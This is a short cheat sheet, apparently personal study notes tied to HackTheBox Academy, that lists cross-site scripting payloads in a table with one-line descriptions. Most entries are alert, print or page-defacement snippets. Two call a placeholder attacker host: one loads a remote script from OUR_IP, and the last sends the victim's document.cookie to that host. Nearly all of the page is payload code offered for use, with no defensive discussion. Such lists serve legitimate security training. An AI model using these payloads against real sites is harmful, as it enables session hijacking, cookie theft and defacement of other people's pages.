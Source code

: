 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/xss-payloads/","tags":["XSS"]}
---
```



| Code | Description |
| -----  | ------------ |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
|`<script>print()</script>`| Basic XSS Payload |
|`<img src="" onerror=alert(window.origin)>`|HTML-based XSS Payload|
|`<script>document.body.style.background = "#141d2b"</script>`| Change Background Color |
|`<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`|Change Background Image
|`<script>document.title = 'HackTheBox Academy'</script>`|Change Website Title
|`<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`|Overwrite website's main body
|`<script>document.getElementById('urlform').remove();</script>`|Remove certain HTML element
|`<script src="http://OUR_IP/script.js"></script>`|Load remote script
|`<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`|Send Cookie details to us|
